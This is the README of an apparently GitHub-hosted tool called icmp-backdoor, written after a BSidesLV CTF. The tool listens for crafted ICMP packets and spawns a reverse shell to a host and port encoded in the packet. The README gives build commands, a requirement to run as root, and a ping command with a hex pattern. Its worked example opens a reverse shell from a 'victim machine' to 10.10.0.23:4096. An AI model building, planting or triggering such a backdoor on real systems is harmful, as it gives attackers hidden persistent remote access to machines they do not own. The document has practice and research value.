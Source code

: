 # icmp-backdoor

During the BSidesLV Pros vs. Joes CTF, it was revealed that the red
cell used a very similar tool to this known as prism to achieve
persistence in a few of our machines. I decided to write my own tool
similar to this for practice.

Prism: https://github.com/andreafabrizi/prism

The concept behind this tool is that it listens for specially crafted
ICMP packets, and if they match a certain criteria, it will spawn a
reverse shell to a specified host and port.

# Building

First, you should edit icmp-backdoor.c. In particular, change the
MAGIC1, MAGIC2, and PROGNAME macros to values that suit your needs.

Next, just use _make_. This has currently been tested only on
Linux. Will test on BSD, macOS and others soon:

	$ make
	
If you don't have _make_ or if _gcc_ isn't your thing:

	$ clang -o icmp-backdoor icmp-backdoor.c

# Usage

Since this uses SOCK_RAW, you must run this as root or otherwise have
the ability to open raw sockets as the user that initially runs this.

Prism uses its own tool to send the packets. I opted for a "live off
the land" approach and use the commonly-available _ping_ utility with
the -p flag:

	$ ping -c 1 -p 0a0a001710002a7a host

The format for the pattern is: IIIIIIIIPPPPMMMM where I is IP address,
P is port, and M is magic bytes. This is represented as hexadecimal,
so you will either have to be a weirdo like me and be able to
calculate this in your head or use a calculator.

See the included _calc.py_ for a handy calculator for this.

In the above example:

	IP: 0a0a0017 is 10.10.0.23
	Port: 1000 is 4096
	Magic is 2a7a, which is hard-coded into this program.

This will open a reverse shell from the victim machine to 10.10.0.23:4096.

The magic bytes are there for alignment purposes when using the -p
flag with ping and as a mechanism to determine if a shell should be
opened when an ICMP packet is received.
